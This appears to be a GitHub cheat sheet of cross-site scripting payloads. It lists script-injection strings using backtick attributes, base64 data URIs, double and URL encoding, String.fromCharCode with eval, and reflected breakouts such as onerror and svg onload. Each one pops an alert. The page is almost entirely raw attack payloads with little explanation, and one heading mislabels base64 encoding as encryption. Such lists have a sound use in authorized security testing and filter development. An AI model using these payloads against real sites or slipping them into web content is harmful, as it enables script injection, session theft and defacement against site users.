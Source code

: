 # Using Backticks

```html
<IMG SRC=`javascript:alert("XSS")`>
```

# Using Data URIs

```html
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">Click here</a>
```

# Double Encoding

```html
%253Cscript%253Ealert('XSS')%253C%252Fscript%253E
```

# Encrypted Payloads

# Base64 Encoding with Execution

```html
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4="></iframe>
```

# Hex Encoding with Execution

```html
<script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script>
```

# Reflected XSS Payloads

# Basic Payloads

```html
"><script>alert('XSS')</script>
"><img src=x onerror=alert('XSS')>
"><svg/onload=alert('XSS')>
```

# URL Encoded Payloads

```html
%3Cscript%3Ealert('XSS')%3C/script%3E
%3Cimg%20src%3Dx%20onerror%3Dalert('XSS')%3E
%3Csvg%2Fonload%3Dalert('XSS')%3E
```
